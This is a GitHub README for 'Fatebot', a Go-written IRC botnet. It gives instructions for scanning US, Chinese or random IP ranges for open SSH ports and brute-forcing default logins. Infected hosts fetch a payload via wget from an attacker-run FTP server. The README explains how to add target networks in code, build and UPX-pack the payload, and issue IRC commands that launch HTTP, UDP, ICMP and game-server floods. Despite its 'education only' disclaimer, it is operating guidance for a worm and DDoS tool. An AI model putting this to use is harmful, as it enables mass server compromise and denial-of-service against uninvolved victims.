 # Fatebot
This is my first IRC botnet for launch Denial of Service attack. Scan target are anything that run linux, Open default SSH port, Use default username and password. This bot are write in Go language. <strong>For education purpose only. Please test it in your lab, I create this for join university in the future not for attack anyone server with out any permission!!!</strong>

<strong>IRC commands are in the bottom of The page.</strong>

<img src="assets/fatebot.png" alt="Fatebot" width="400" height="400">

# Infect
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA or CN network or You can do a random scan or even You can add you own mods like russia or india isp mods. All of these it's up to you. This bot will Brute-force attack to the target and use "wget" to get payload from FTP server, So... Please prepair your FTP server first... It's very important for The infect process. <strong>(It just me, You can use any option any server type that can host The payload.)</strong>

# Add more IP range

(1) Go to "scan.go" file in pkg folder. Add your new ip range in to The group of varible.

		var_name = "224." //224.0.0.0 - 224.255.255.255
		or
		var_name = "224.12" //224.12.255.255
		
(2) Create slice of your network.

	Example:
	
		var UK_netList = []string{
			uk1, uk2, uk3, uk4, uk5,
		}

(3) Go to "nextIP" function and add The case for your ip range and return range of your ip.

		case var_name:
				return scan.manageRange(genRange(255, 0)) //max and min
				
(3.1) In case of The ip range That you don't want to custom your second network prefix.
	
	Example:
	
		var_name = "224.12"
		var_name = "224.20"
		
	#The ip range that look like this it will return range of The id since 0 - 255 by default.
	#So... That's mean you don't need to add a case of your ip range.
	

(4) Then go down to The "ScanMode" function and add The case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			irc.BotScanner(UK_netList, ftp, payload, false) //Just config The first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of ssh port are open on which isp/org. What is the most used OS, version and etc.</strong>

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The volumetric layer</strong>.


<img src="assets/udpflood.png" alt="udp flood, dos example">

# Build payload

	chmod +x build.sh
	./build.sh <payload>
	./bin/<payload>
	
	#Tip: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
	Debian:
		apt install upx -y && upx -9 bin/<payload>

# IRC Commands

	?get 	<url>			Flood HTTP get request to target. Shouldn't have "/" end of The url!!!
	?post 	<url>			Flood HTTP post request to target. Shouldn't have "/" end of The url!!!
	?udp 	<ip> <size>		Flood UDP packets by random src and dst port to target. Min and Max of Buffer is 1 - 700bytes.
	?icmp 	<ip>			Flood ICMP with large packets to target.
	?vse 	<ip>			Flood TSource Engine Query request(UDP) on valve source engine dst port, By random src port. To The target server that used to host online games.
	?scan 	<modes> <ftp>		Scan SSH port on The network, Brute-Force attack to The target and load The payload by "wget".
	
	Scanner modes:
	
		-cn		Scan on china network. 
		-usa		Scan on united states network. 
		-r		Scan on random ip range. 	
		
	?info				Get bot system information, For bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.

